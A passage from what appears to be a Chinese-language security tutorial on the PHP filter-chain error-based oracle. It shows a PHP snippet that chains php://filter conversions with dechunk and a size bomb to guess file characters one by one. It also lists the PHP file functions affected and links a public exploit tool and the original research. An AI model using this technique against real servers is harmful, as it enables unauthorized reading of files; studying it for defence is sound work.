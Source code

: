 ```php
    $filter = "php://filter/$swap_bits$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the fifth character is "."edcba"[$i-1]."\n";
}
```

到这里基本上整个利用都讲完了。其实本质上就是利用过滤器的特性来不断确定最终字符。

受影响的函数
======

```php
file_get_contents
readfile
finfo->file
getimagesize
md5_file
hash_file
sha1_file
parse_ini_file
parse_ini_file
file
copy
file_put_contents (only target read only with this)
stream_get_contents
fgetsfread
fgetc
fgetcsv
fpassthru
fputs
```

然后也有工具可以直接利用  
[https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

reference：  
<https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle>